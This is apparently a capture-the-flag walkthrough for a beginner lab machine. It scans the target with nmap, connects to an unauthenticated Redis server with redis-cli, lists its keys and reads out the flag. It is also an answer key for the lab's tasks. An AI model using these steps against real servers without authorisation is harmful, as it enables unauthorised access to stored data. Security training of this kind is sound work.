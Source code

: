 # Redeemer

Really?! What the hell is up with this name?

## Task 1

> Which TCP port is open on the machine?

6379

```
nmap -p- 10.129.156.42
```

```out
Starting Nmap 7.80 ( https://nmap.org ) at 2022-09-10 00:02 EDT
Nmap scan report for 10.129.156.42
Host is up (0.046s latency).
Not shown: 65534 closed ports
PORT     STATE SERVICE
6379/tcp open  redis

Nmap done: 1 IP address (1 host up) scanned in 15.35 seconds
```

Maximum number of port is 65535.

## Task 2

> Which TCP port is open on the machine?

redis

## Task 3

> What type of database is Redis? Choose from the following options: (i)
In-memory Database, (ii) Traditional Database

in-memory database

## Task 4

> Which command-line utility is used to interact with the Redis server? Enter the program name you would enter into the terminal without any arguments. 

redis-cli

* Redis CLI \| Redis  
  <https://redis.io/docs/manual/cli/>

## Task 5

> Which flag is used with the Redis command-line utility to specify the hostname?

-h

```
sudo apt install redis-tools
redis-cli -h
```

## Task 6

> Once connected to a Redis server, which command is used to obtain the information and statistics about the Redis server?

info

## Task 7

> What is the version of the Redis server being used on the target machine?

```
10.129.156.42:6379> info
# Server
redis_version:5.0.7
```

## Task 8

> Which command is used to select the desired database in Redis?

```
10.129.156.42:6379> help select

  SELECT index
  summary: Change the selected database for the current connection
  since: 1.0.0
  group: connection
```

## Task 9

> How many keys are present inside the database with index 0?

```
10.129.156.42:6379> select 0
...
# Keyspace
db0:keys=4,expires=0,avg_ttl=0
```

## Task 10

> Which command is used to obtain all the keys in a database?

```
10.129.156.42:6379> keys *
1) "flag"
2) "numb"
3) "temp"
4) "stor"
```

## Task 11

> Submit flag.

```
10.129.156.42:6379> get flag
"03e1d2b376c37ab3f5319922053953eb"
```
